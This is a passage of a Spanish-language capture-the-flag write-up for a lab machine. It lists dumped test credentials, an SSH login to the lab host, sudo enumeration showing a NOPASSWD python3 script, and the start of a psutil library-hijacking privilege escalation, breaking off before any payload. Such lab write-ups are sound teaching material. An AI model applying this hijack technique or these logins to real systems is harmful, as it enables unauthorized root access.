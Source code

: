 Al ejecutar obtenemos lo siguiente:
```bash
Username: admin - Password: adminpassword
Username: user1 - Password: user1password
Username: kvzlx - Password: kvzlxpassword
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.18.0.2 && ssh kvzlx@172.18.0.2 # ( kvzlx )
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l
```

**Hallazgos Clave:**
```bash
User kvzlx may run the following commands on b97a7ea7dd54:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py # Tenemos una via potencial de migrar a root
```

### Explotacion de Privilegios

###### Usuario `[ kvzlx ]`:
Mirando el contenido del archivo: **system_info.py** vemos que emplear librerias las cuales podemos secuestrar:
```python3
import psutil


def print_virtual_memory():
    vm = psutil.virtual_memory()
    print(f"Total: {vm.total} Available: {vm.available}")


if __name__ == "__main__":
    print_virtual_memory()
```

###### Secuestrando libreria: `psutil`
Revisando la variable de entorno del usuario vemos:
```bash
echo $PATH

/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
